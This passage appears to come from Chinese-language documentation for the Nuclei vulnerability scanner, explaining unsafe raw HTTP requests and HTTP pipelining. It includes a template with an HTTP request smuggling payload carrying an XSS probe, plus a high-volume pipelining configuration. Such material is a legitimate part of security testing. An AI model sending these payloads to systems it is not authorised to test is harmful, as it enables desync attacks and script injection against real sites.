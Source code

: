 #### 不安全的 HTTP 请求

Nuclei 支持 [rawhttp](https://github.com/projectdiscovery/rawhttp) 来控制和定制完整的请求，允许 **任何畸形的请求**，如 HTTP 走私请求、Host 头注入、畸形 CRLF 字符等等。

**rawhttp** 库默认处于禁用状态，需在模板中指定 `unsafe: true` 来启用它。

一个使用 `rawhttp` 的 HTTP 走私请求实例：

```yaml
requests:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET /post?postId=5 HTTP/1.1
        User-Agent: a"/><script>alert(1)</script>
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 5

        x=1
    - |+
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # Enables rawhttp client
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "<script>alert(1)</script>")'
```

### 高级请求

我们对 Nuclei 做了强化，能对网络服务器用更高级的方式扫描，用户能指定多个选项来优化 HTTP 工作流。

#### Pipelining

HTTP 管线化（HTTP Pipelining）支持将多个 HTTP 请求发送到同一网络连接上，灵感源于[http-desync-attacks-request-smuggling-reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn).

需要确保服务端能支持 HTTP 管线化，否则 Nuclei 还是会退回到标准的 HTTP 请求引擎。

如果你想确认提供的域名列表中是否支持 HTTP 管线化，可以用 [httpx](https://github.com/projectdiscovery/) 的 `-pipeline` 参数探测。

一个管线化的配置实例：

```yaml
    unsafe: true
    pipeline: true
    pipeline-concurrent-connections: 40
    pipeline-requests-per-connection: 25000
```
